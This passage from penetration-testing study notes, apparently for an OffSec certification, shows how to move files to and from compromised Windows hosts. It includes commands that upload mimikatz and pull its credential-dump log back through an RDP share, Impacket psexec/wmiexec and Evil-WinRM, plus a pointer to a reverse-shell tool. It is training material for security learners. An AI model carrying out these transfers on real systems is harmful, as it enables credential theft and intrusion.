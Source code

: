 On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
Note: By default whether you upload (lput) or download (lget) a file, it'll be writte in C:\Windows path.
Uploading mimikatz.exe to the target machine:
```powershell
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```powershell
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
Uploading files:
```powershell
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
Downloading files:
```powershell
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:

File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc

PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

## Windows Environment Set :
See this make Windows shell looks good !!

Path: 
```powershell
/home/kali/Tib-Priv/Win/tools/Invoke-ConPtyShell.ps1
```
https://github.com/antonioCoco/ConPtyShell

## Windows Phpmyadmin Reverse shell:
